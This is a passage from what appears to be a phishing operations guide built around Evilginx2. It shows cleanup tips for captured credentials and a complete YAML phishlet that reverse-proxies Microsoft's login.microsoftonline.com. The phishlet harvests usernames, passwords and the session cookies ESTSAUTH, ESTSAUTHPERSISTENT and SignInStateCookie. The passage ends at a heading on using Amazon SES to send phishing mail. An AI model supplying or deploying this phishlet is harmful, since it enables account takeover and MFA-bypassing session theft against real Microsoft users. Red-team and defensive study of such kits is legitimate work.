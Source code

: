 3. **Secure Credentials and Data:**
   - Ensure that any captured credentials or data are properly managed and securely stored. Do not leave sensitive information exposed or accessible.

4. **Terminate the Instance (If Applicable):**
   - If you were using Evilginx2 on an AWS instance, consider terminating the instance when it's no longer needed. This will help minimize security risks and costs.

5. **Monitor for Suspicious Activity:**
   - Continuously monitor your environment for any signs of suspicious activity or unauthorized access, especially if you were running Evilginx2 on a live network.

### Phishlet for Microsoft
```yaml
author: '@kike,@bsmithday,@JRodriguez556'
min_ver: '2.3.0'
proxy_hosts:
- {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com', session: true, is_landing: true}
- {phish_sub: 'account', orig_sub: 'account', domain: 'microsoftonline.com', session: false, is_landing: false}
sub_filters:
- {triggers_on: 'login.microsoftonline.com', orig_sub: 'login', domain: 'microsoftonline.com', search: 'https://{hostname}/ppsecure/', replace: 'https://{hostname}/ppsecure/', mimes: ['text/html', 'application/json', 'application/javascript']}
- {triggers_on: 'login.microsoftonline.com', orig_sub: 'login', domain: 'microsoftonline.com', search: 'https://{hostname}/GetCredentialType.srf', replace: 'https://{hostname}/GetCredentialType.srf', mimes: ['text/html', 'application/json', 'application/javascript']}
- {triggers_on: 'login.microsoftonline.com', orig_sub: 'login', domain: 'microsoftonline.com', search: 'https://{hostname}/GetSessionState.srf', replace: 'https://{hostname}/GetSessionState.srf', mimes: ['text/html', 'application/json', 'application/javascript']}
- {triggers_on: 'login.microsoftonline.com', orig_sub: 'login', domain: 'microsoftonline.com', search: 'href=https://{hostname}', replace: 'href=https://{hostname}', mimes: ['text/html', 'application/json', 'application/javascript']}
- {triggers_on: 'login.microsoftonline.com', orig_sub: 'login', domain: 'microsoftonline.com', search: 'https://{hostname}', replace: 'https://{hostname}', mimes: ['text/html', 'application/json', 'application/javascript'], redirect_only: true}
auth_tokens:
- domain: '.login.microsoftonline.com'
  keys: ['ESTSAUTH' , 'ESTSAUTHPERSISTENT' , 'SignInStateCookie']
credentials:
  username:
    key: 'login'
    search: '(.*)'
    type: 'post'
  password:
    key: 'passwd'
    search: '(.*)'
    type: 'post'
login:
  domain: 'login.microsoftonline.com'
  path: '/?auth=2'
```
## Setting Up WorkMail and Amazon SES for Phishing

